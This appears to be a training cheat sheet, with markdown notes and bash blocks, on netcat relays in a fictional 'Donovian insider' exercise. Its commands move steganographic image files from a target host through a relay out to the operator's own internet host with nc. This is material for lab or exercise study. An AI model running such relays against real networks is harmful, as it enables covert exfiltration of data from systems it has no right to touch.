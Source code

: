 ### ESTABLISHING A NETCAT RELAY *TO* "RELAY" and connect to this port and FORWARD TO "T1"
```bash
#ex: Donovian insider provided an image called 3steg.jpg on device "T2" that is listening for a connection from "RELAY" on TCP Port 6789 
#On RELAY:
nc 172.16.82.115 6789 > 3steg.jpg #This is T2 IP
#once verified 3steg.jpg is there, continue.
nc 10.10.0.40 3333 < 3steg.jpg #(This is us on our internet host IP, utilizing random ports)
#THEN ON OUR IP:
nc -lvp 3333 > glup.jpg
#Verify complete
```
### ESTABLISHING A NETCAT RELAY *ON* "RELAY", to ACCEPT THIS CONNECTION and forward to "T1"
```bash
#ex:  Donovian insider provided an image called 1steg.jpg on "T2" and is trying to connect to "RELAY" on TCP Port 1234 to send the file.
#On RELAY:
nc -lvp 1234 > 1steg.jpg
#verify file is there, then:
nc 10.10.0.40 1111 < 1steg.jpg #This is our internet host IP, utilizing random ports.)
#THEN ON OUR IP:
nc -lvp 1111 > meow.jpg
#Verify complete.
